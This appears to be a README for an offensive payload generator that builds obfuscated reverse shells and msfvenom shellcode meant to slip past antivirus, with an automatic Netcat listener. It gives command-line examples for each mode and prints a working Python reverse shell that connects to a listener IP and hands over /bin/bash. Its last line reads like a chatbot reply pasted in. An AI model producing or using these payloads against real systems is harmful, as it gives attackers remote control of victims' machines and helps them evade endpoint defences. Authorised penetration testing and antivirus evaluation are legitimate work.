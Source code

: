 # SPYDIRBYTE Advanced Payload Generator

The SPYDIRBYTE Advanced Payload Generator is a cutting edge Python-based tool designed for cybersecurity professionals to test antivirus and endpoint security solutions. It supports multiple payload types, advanced obfuscation methods, and includes a built in listener setup for reverse shells.

## Features

- **Multiple Payload Types**:
  - Python reverse shells.
  - Raw shellcode payloads (generated with `msfvenom`).
- **Advanced Obfuscation**:
  - Base64 encoding, XOR encryption, and AES encryption with customizable keys.
- **Cross-Platform**:
  - Works on Linux, macOS, and Windows (Python payloads only).
- **Integrated Listener**:
  - Automatically sets up a Netcat listener for testing reverse shell payloads.
- **User-Friendly**:
  - Clear CLI interface with optional advanced features.

## Disclaimer

This tool is intended for **ethical purposes only**. Use it to test systems **you own** or have explicit permission to test. Unauthorized use is illegal and unethical.

## Requirements

- **Operating System**: Kali Linux or any Linux distribution with `msfvenom` installed.
- **Python Version**: Python 3.7 or newer
- **Dependencies**:
  - `cryptography`: Install using `pip install cryptography`

## Installation

Clone the repository and navigate to the directory:

```bash
git clone https://github.com/spydirbyte/payload-generator.git
cd payload-generator
python payload_generator.py -i <listener_ip> -p <listener_port> -t <payload_type> -o <output_file> [--obfuscation <method>] [--setup-listener]
```
Arguments
```bash
-i, --ip: Required. The IP address for the reverse shell listener.
-p, --port: Required. The port for the reverse shell listener.
-t, --type: Required. Payload type:
python: Generates a Python reverse shell script.
shellcode: Generates raw shellcode using msfvenom.
-o, --output: Required. Output file for the payload.
--obfuscation: Optional. Obfuscation method (base64, xor, aes, none).
--setup-listener: Optional. Automatically sets up a Netcat listener.
--aes-key: Optional. AES key for payload encryption (auto-generated if not provided).
```
Examples
Generate a Python Reverse Shell:
```bash
python payload_generator.py -i 192.168.1.10 -p 4444 -t python -o shell.py --obfuscation base64
```

Generate Shellcode:
```bash
python payload_generator.py -i 192.168.1.10 -p 4444 -t shellcode -o shell.bin
```

Generate AES-Encrypted Payload:
```bash
python payload_generator.py -i 192.168.1.10 -p 4444 -t python -o shell.py --obfuscation aes --aes-key mysecretkey123
```

Set Up a Listener Automatically:
```bash
python payload_generator.py -i 192.168.1.10 -p 4444 -t python -o shell.py --setup-listener
```

Output
The payload is saved to the specified file. For example, a Python reverse shell might look like:
```bash
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.1.10', 4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system('/bin/bash')
```

Developed by SPYDIRBYTE
```bash
This enhanced tool is powerful, user-friendly, and ideal for ethical cybersecurity practices. Let me know if you want additional features or a GUI!
```

